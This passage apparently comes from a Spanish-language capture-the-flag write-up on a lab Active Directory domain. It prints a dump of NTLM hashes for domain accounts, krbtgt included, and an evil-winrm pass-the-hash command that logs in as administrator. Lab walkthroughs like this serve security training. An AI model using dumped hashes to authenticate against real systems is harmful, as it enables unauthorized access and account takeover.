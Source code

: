 ```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::                            
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::  
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::            
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::         
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::         
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::              
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::            
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:ab0e7e804fa28a592b2df78228913813:::
[*] Kerberos keys grabbed
[...]
```

Obtenido los hashes de usuarios del dominio puedo autenticarme a través del servicio `winrm` como usuario `administrator`

```
❯ evil-winrm -i 10.10.104.53 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
```

![admin](/assets/imgs/ada/admin.png)
